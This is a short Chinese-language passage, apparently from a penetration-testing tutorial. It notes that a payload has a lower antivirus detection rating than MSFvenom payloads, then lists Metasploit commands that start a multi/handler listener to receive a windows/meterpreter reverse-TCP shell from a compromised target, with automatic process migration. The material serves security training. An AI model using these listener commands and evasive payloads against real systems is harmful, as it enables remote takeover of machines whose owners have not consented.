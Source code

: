 ![](img/file342.png)

如前所示，威胁检测评级低于由 MSFvenom 生成的那些载荷。

1.  接下来，使用以下命令设置一个 Meterpreter 监听器，通过 Metasploit 捕获从目标系统执行后的反向 Shell：

```
kali@kali:~$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.30.1.50
msf6 exploit(multi/handler) > set LPORT 5678
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 exploit(multi/handler) > exploit
```

以下截图展示了前述命令的执行情况：

![](img/file343.png)
